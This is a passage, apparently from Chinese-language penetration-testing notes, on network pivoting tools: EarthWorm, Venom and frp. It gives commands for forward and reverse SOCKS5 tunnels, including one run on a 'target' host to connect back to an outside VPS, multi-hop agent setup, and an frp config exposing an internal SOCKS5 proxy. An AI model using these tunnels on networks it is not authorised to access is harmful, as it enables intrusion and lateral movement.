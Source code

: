 EW 是一套便携式的网络穿透工具，具有 SOCKS v5服务架设和端口转发两大核心功能，可在复杂网络环境下完成网络穿透

1.正向socks5

`./ew -s ssocksd -l 1080`

2.反弹

VPS运行

` ./ew -s rcsocks -l 1080 -e 8888 `

目标执行

`./ew -s rssocks -d 1.1.1.1 -e 8888 `

多级联动参考(http://rootkiter.com/EarthWorm/)[http://rootkiter.com/EarthWorm/]

##### **4.[Venom](http://github.com/Dliv3/Venom)**

使用Go开发的多级代理工具,Venom可将多个节点进行连接，然后以节点为跳板，构建多级代理,并轻松地管理代理节点。

`./admin_linux_x64 -lport 9999` 

`agent.exe -rhost 192.168.1.9 -rport 9999`

`show` //查看节点

`goto 1` //进入1节点

`socks 8888` //开启socks监听

![](http://qn.laohuan.xin/Snipaste_2021-11-13_16-35-32-venom.png)

##### **5.[frp](http://github.com/fatedier/frp/blob/dev/README_zh.md)**

frp 是一个专注于内网穿透的高性能的反向代理应用，支持 TCP、UDP、HTTP、HTTPS 等多种协议。可以将内网服务以安全、便捷的方式通过具有公网 IP 节点的中转暴露到公网。

* frps.ini

  ```bash
  [common]
  bind_port = 8080
  ```

  `./frps -c frps.ini`

* frpc.ini

  ```bash
  [common]
  server_addr = 106.75.249.3
  server_port = 8080
  
  [plugin_socks5]
  type = tcp
  remote_port = 8081
  plugin = socks5
  plugin_user = abc
  plugin_passwd = abc123456
  use_encryption = true //加密压缩传输
  use_compression = true  
  ```
